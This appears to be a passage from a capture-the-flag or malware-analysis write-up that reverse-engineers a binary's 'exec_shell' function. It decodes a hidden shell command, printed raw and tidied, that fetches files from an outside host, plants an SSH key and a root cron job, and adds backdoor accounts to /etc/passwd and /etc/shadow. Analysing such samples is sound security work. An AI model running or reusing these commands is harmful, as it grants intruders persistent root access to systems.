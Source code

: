 Out of all the functions, `exec_shell` is the most unique because it actually executes something.

<figure><img src="../../../.gitbook/assets/image (1565).png" alt=""><figcaption></figcaption></figure>

We can see the `-c` flag, and it is passed to `execve`, which means that some commands are being executed here. However, `ghidra` is unable to to see what is being executed. When we open it up in `ida64`, we can see a huge chunk of hex.

<figure><img src="../../../.gitbook/assets/image (1281).png" alt=""><figcaption></figcaption></figure>

When converted to a string, it gives this:

{% code overflow="wrap" %}
```
wget tempfiles.xyz/authorized_keys -O /root/.ssh/authorized_keys; wget tempfiles.xyz/.main -O /var/lib/.main; chmod 755 /var/lib/.main; echo "* 3 * * * root /var/lib/.main" >> /etc/crontab; awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1"1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7::: >> /etc/shadow")}' /etc/passwd; awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1" "$3" "$6" "$7" > users.txt")}' /etc/passwd; while read -r user group home shell _; do echo "$user"1":x:$group:$group:,,,:$home:$shell" >> /etc/passwd; done < users.txt; rm users.txt;
```
{% endcode %}

We can tidy this up a bit:

```bash
wget tempfiles.xyz/authorized_keys -O /root/.ssh/authorized_keys
wget tempfiles.xyz/.main -O /var/lib/.main
chmod 755 /var/lib/.main
echo "* 3 * * * root /var/lib/.main" >> /etc/crontab
awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1"1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7::: >> /etc/shadow")}' /etc/passwd
awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1" "$3" "$6" "$7" > users.txt")}' /etc/passwd
while read -r user group home shell _
do echo "$user"1":x:$group:$group:,,,:$home:$shell" >> /etc/passwd
done < users.txt
rm users.txt
```
